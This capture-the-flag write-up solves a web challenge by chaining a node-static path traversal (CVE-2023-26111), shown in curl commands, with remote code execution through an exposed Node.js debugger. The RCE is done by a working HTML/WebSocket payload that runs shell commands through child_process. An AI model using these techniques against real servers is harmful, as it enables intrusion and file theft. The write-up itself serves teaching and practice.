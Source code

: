 # Under construction
> We started the development of a new task but havent completed it yet.

> The debug version works on the site. We believe there is no way to get the flag now, but you can try!

## About the Challenge
We have been given a source (You can download the source code [here](source.zip)) and also the website. Here is the preview of the website

![preview](images/preview.png)

There is a countdown and there is also another endpoint where we can input a URL and then The website will then navigate to the URL we have inputted

![preview](images/preview_2.png)

## How to Solve?
Now let's check the source code

![source_code](images/source_code.png)

There is a folder called `app`, and 2 js file: `app.js` and `worker.js`. Let's see the `package.json` first to see if there is an outdated dependencies

```json
{
  "dependencies": {
    "node-static": "0.7.11",
    "puppeteer": "20.7.3",
    "react-cyber-elements": "^1.0.2"
  }
}
```

Hmm, what is `node-static` package? lets see if this version is vulnerable or not using `security.snyk.io`

![snyk](images/snyk.png)

And voilà, we know this package was vulnerable to `CVE-2023-26111` (You can check this [gist.github.com](https://gist.github.com/lirantal/c80b28e7bee148dc287339cb483e42bc) to read the details). Let's check the source code again

```node
const hostname = '0.0.0.0';
const port = 3000;
var file = new static.Server('./app');
```

This program creates a node-static server to serve the `./app` folder. As a result, we can access folders or files that begin with the word `app` such as `../app.txt` or ``../app/index.html``. For example, due to the presence of a file named app.js in the server, we can send a request like the following using curl.

```bash
curl "http://web-under-construction-ins1.ctfz.one/../app.js" --path-as-is -v
```

![cve](images/cve.png)

It will show us the source code of `app.js`. Not let's check the `Dockerfile`.

```bash
CMD ["bash","-c","node --inspect app.js  1>app-logs.out 2>app-logs.err"]
```

As you can see, the program ran using `--inspect` switch and the output will be put in a file called `app-logs.out` and if there is an error it will be put in a file called `app-logs.err`. In this case we can see the output of these 2 files by using this curl command

```bash
curl "http://web-under-construction-ins1.ctfz.one/../app-logs.out" --path-as-is -v
curl "http://web-under-construction-ins1.ctfz.one/../app-logs.err" --path-as-is -v
```

![app-out](images/app-out.png)

![app-err](images/app-err.png)

And then what? let's check `Dockerfile` again. The flag was located in `/root/flag.txt`

```
RUN echo "ctfzone{REDACTED}" > /root/flag.txt
RUN echo "ubuntu ALL = (root) NOPASSWD: /bin/cat /root/flag.txt" >> /etc/sudoers
```

So, we need to do Remote Code Execution and then run `sudo /bin/cat /root/flag.txt` to obtain the flag. And to do RCE, as I said before, the program ran using `--inspect` switch. And because of we know the URL of the debugger we can do RCE (You can read this [post](https://book.hacktricks.xyz/linux-hardening/privilege-escalation/electron-cef-chromium-debugger-abuse) about RCE in Node.js Debugger).

And in the end, we create a HTML code to read the flag and then put the flag to `app-logs.out` file

```
<!DOCTYPE html>
<html lang="en">
<head>
    <meta charset="UTF-8">
    <meta name="viewport" content="width=device-width, initial-scale=1.0">
    <title>Document</title>
</head>
<body>
    <script>
        let ws = new WebSocket("ws://127.0.0.1:9229/bff792d1-3b2c-4d2a-812a-d95a7f158f2c");
        ws.onmessage = function(data){new Image().src = '/message?' + data.data;}
        ws.onerror = function(data){new Image().src = '/error?' + data;}
        ws.onopen = () => {
            ws.send(
              JSON.stringify({
                id: 1,
                method: "Runtime.evaluate",
                params: {
                  expression:
                    'require(\'child_process\').execSync(\'sudo /bin/cat /root/flag.txt >> /home/ubuntu/app-logs.out\')',
                },
              })
            );
        };
    </script>
</body>
</html>
```

Host this HTML code somewhere, for example use VPS to host the code. And then put our website into `/browser` endpoint in the website. Wait for a while and you can obtain the flag

```
ctfzone{d3bug_m0d3_1s_c00l_f0r_CTF}
```